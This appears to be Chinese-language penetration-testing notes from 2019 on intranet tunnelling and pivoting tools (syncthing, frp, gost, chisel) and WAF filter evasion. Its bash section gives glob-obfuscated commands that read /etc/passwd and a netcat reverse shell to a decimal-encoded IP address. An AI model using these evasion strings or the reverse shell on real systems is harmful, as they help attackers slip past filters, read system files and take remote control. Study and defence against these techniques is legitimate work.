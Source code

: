 
# 分享2019-01-19
## 1、基于p2p同步文件syncthing
即便再内网，或可通过内网其他可上网机器中继
你是否想到楼后渗透中都某些场景？
```
go get -u -v github.com/syncthing/syncthing.git
~/go/src/github.com/syncthing/syncthing/
./build.sh all
使用学习：
https://www.youtube.com/watch?reload=9&v=iz7j7SQJVxs
启动server
~/go/src/github.com/syncthing/syncthing/bin#syncthing
配置管理：
http://127.0.0.1:8384/
```

# 内网穿透
A fast reverse proxy to help you expose a local server behind a NAT or firewall to the internet
https://github.com/fatedier/frp#p2p-mode
```
go get -v -u github.com/fatedier/frp
cd /root/go/src/github.com/fatedier/frp
make all
cd bin
ln -s `pwd`/frpc /root/go/bin/frpc
ln -s `pwd`/frps /root/go/bin/frps
```
# GO Simple Tunnel - a simple tunnel written in golang
https://github.com/ginuerzh/gost
https://github.com/jpillora/chisel
https://github.com/mmatczuk/go-http-tunnel
```
go get -u -v github.com/ginuerzh/gost
go get -u -v github.com/jpillora/chisel

cd ~/go/src/github.com/ginuerzh/gost
cd cmd

```

# 获取bash的一些字符过滤情况
```
man 7 glob
rm `find . -name "*~"`
 rm -f nosuchfile `find . -name "*~"`
 然后你发现，高级都bypass WAF
 /b??/??t /???/p??s??
 /???/??t /???/??ss??
 cat /e't'c/pa"ss"wd
 /???/[a-b]a?h -c "whoami;id;w;last"
 一个经典都reverse
 /???/n? -e /???/b??h 2130706433 1337

```

# 为什么要研究安防
```
安全拦截、过滤都规则，和绕过都对抗
https://github.com/SpiderLabs/owasp-modsecurity-crs/

```

# 也许不久后，我们也会做安全产品【机会是留给有准备的人】
```
我编译最轻量化的安全nginx
https://github.com/elisiano/docker-nginx-modsecurity/issues/3
https://github.com/SpiderLabs/owasp-modsecurity-crs
docker + alpine + nginx + modsecurity
https://github.com/SpiderLabs/owasp-modsecurity-crs/blob/v3.2/dev/INSTALL
集成：
https://github.com/elisiano/docker-nginx-modsecurity/issues/4
```


# python的一些经典分享
```
https://github.com/sshuttle/sshuttle
sshuttle - (Repo, Docs) Transparent network proxy server that uses SSH to achieve VPN-like results, without requiring root access. (linux, mac)

https://github.com/mitmproxy/mitmproxy
MITMproxy - (Repo, Home) Interactive TLS-capable intercepting HTTP proxy for penetration testers and software developers


https://pypi.org/project/py2p/
```

# p2p tunnel socks5?
p2p CLI工具
```
apt install rtorrent

```

# 远程端口转发【2.646k star】
https://github.com/ginuerzh/gost
```
gost -L=rtcp://:2222/192.168.1.1:22 -F forward+ssh://222.222.33.3:2222
gost -L=rtcp://:2222/192.168.1.1:22 -F forward+socks5://222.222.33.3:2222

将本地TCP端口2222上的数据(通过代理链)转发到192.168.1.1:22上
gost -L=tcp://:2222/192.168.1.1:22
./gost_linux -L=tcp://:8080/192.168.1.1:80

将本地UDP端口5353上的数据(通过代理链)转发到192.168.1.1:53上
gost -L=udp://:5353/192.168.1.1:53?ttl=60

远程端口4443数据转到本机80
gost -L=rtcp://192.168.0.100:4443/127.0.0.1:80

代理模式
服务端:
gost -L=http2://:443
客户端:
gost -L=:8080 -F=http2://server_ip:443

```